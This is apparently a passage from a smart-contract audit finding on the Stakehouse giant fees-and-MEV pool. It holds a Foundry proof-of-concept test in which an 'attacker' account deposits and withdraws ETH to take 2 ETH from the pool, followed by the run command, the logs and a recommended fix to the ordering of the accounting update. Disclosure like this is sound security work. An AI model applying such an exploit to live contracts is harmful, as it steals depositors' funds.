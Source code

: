 test:  
test/foundry/TakeFromGiantPools2.t.sol

    pragma solidity ^0.8.13;
    
    // SPDX-License-Identifier: MIT
    
    import "forge-std/console.sol";
    import {GiantPoolTests} from "./GiantPools.t.sol";
    
    contract TakeFromGiantPools2 is GiantPoolTests {
        function testDWUpdateRate2() public{
            address feesAndMevUserOne = accountOne; vm.deal(feesAndMevUserOne, 4 ether);
            address feesAndMevUserTwo = accountTwo; vm.deal(feesAndMevUserTwo, 4 ether);
            // Deposit ETH into giant fees and mev
            vm.startPrank(feesAndMevUserOne);
            giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);
            vm.stopPrank();
            vm.startPrank(feesAndMevUserTwo);
            giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);
            giantFeesAndMevPool.withdrawETH(4 ether);
            vm.stopPrank();
            console.log("user one:", getBalance(feesAndMevUserOne));
            console.log("user two(attacker):", getBalance(feesAndMevUserTwo));
            console.log("giantFeesAndMevPool:", getBalance(address(giantFeesAndMevPool)));
        }
    
        function getBalance(address addr) internal returns (uint){
            // just ETH
            return addr.balance;  // + giantFeesAndMevPool.lpTokenETH().balanceOf(addr);
        }
    
    }

run test:

    forge test --match-test testDWUpdateRate2 -vvv

test log:

    Logs:
      user one: 0
      user two(attacker): 6000000000000000000
      giantFeesAndMevPool: 2000000000000000000

The attacker stole 2 eth from the pool.

### [](#tools-used-5)Tools Used

foundry

### [](#recommended-mitigation-steps-7)Recommended Mitigation Steps

`idleETH -= _amount;` should be after the `lpTokenETH.burn`.

**[vince0656 (Stakehouse) confirmed](https://github.com/code-423n4/2022-11-stakehouse-findings/issues/129)**
